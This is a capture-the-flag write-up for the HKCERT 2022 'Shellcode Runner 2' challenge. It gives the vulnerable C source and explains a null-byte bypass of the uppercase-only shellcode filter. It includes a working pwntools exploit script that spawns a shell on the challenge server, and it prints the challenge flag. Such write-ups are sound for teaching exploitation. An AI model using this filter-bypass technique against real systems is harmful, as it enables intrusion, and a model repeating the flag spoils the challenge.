 # Shellcode Runner 2
## Challenge Detail
![](../assets/shellcode_runner2_details.png)

source:
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <ctype.h>
#include <string.h>

typedef void (*void_fn)(void);

void _abort(char const * err_msg) {
    printf("%s", err_msg);
    exit(1);
}

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  alarm(60);
}

int is_all_upper(char* s) {
    for (int i=0; i<strlen(s); i++)
        if (!isupper(s[i]) && !isdigit(s[i]) && s[i] != ' ')
            return 0;
    return 1;
}

int main() {
    int SIZE = 100;
    int readed_len = 0;
    unsigned long rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13;
    char *shellcode;
    init();

    shellcode = (char*) mmap((void *)0x13370000, SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);

    if ((long)shellcode == -1)
        _abort("mmap failed!\n");
    memset(shellcode, '\0', SIZE);

    printf("\nInput your shellcode here (max: 100): ");
    if ((readed_len = read(0, shellcode, SIZE - 1)) == 0)
        _abort("read failed!\n");
    
    if (shellcode[readed_len-1] == '\n') {
        shellcode[readed_len-1] = '\0';
    }
    
    if (is_all_upper(shellcode) == 0) {
        _abort("invalid shellcode!\n");
    }

    asm(
        "movq %%rbx, %0;"
        "movq %%rcx, %1;"
        "movq %%rdx, %2;"
        "movq %%rbp, %3;"
        "movq %%rsp, %4;"
        "movq %%rsi, %5;"
        "movq %%rdi, %6;"
        "movq %%r8, %7;"
        "movq %%r9, %8;"
        "movq %%r10, %9;"
        "movq %%r11, %10;"
        "movq %%r12, %11;"
        "movq %%r13, %12;"
        : "=r" (rbx), "=r" (rcx), "=r" (rdx), "=r" (rbp), "=r" (rsp), "=r" (rsi), "=r" (rdi), "=r" (r8), "=r" (r9), "=r" (r10), "=r" (r11), "=r" (r12), "=r" (r13): : "memory"
    );
    printf("Before running the shellcode:\nrax = %p\nrbx = 0x%lx\nrcx = 0x%lx\nrdx = 0x%lx\nrbp = 0x%lx\nrsp = 0x%lx\nrsi = 0x%lx\nrdi = 0x%lx\nr8 = 0x%lx\nr9 = 0x%lx\nr10 = 0x%lx\nr11 = 0x%lx\nr12 = 0x%lx\nr13 = 0x%lx\n",
        shellcode, rbx, rcx, rdx, rbp, rsp, rsi, rdi, r8, r9, r10, r11, r12, r13);
    asm(
        "movq %0, %%rbx;"
        "movq %1, %%rcx;"
        "movq %2, %%rdx;"
        "movq %3, %%rbp;"
        "movq %4, %%rsp;"
        "movq %5, %%rsi;"
        "movq %6, %%rdi;"
        "movq %7, %%r8;"
        "movq %8, %%r9;"
        "movq %9, %%r10;"
        "movq %10, %%r11;"
        "movq %11, %%r12;"
        "movq %12, %%r13;"
        :: "m"(rbx), "m"(rcx), "m"(rdx), "m"(rbp), "m"(rsp), "m"(rsi), "m"(rdi), "m" (r8), "m" (r9), "m" (r10), "m" (r11), "m" (r12), "m" (r13) 
    );
    ((void_fn) shellcode)();
}
```

## Solution
You can see the shellcode will be checked using the `is_all_upper()` function, which means that only upper case alphanumerical input is accpeted. 

After searching on the Internet, I found several example of uppercase alphanumerical shellcodes. However, all of the suggested shellcodes are larger than 100 bytes. Hence, they cannot be used directly.

Later, I further investigated into the `is_all_upper()`. I found that the size of shellcode is checked using `strlen()`, which means that the checking will end if it sees the `0x00` characters. As `read` function does not stop at any null byte, I can include a null byte to stop the checking and append the normal shellcode at the end of the null byte.

Since I don't know whether `0x00` is a valid instruction, I searched online and found [this site](https://nets.ec/Alphanumeric_shellcode). It has an instruction `xor [dword], %eax` which is `'5'`. I think it can mov the value of the null byte into the eax. Also, to prevent bad instruction, I pad some `NOP` behind the null byte. And I successfully get the shell using this code:
```python
from pwn import *
from pwnlib import encoders
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

r = remote('chal.hkcert22.pwnable.hk', 28130)

r.recvuntil(b'(max: 100): ')
r.send(b'\x35\x00\x90\x90\x90' + asm(shellcraft.sh()))
r.interactive()
```

## Flag
`
hkcert22{d41d8cd98f00b204e9800998ecf8427e33a}
`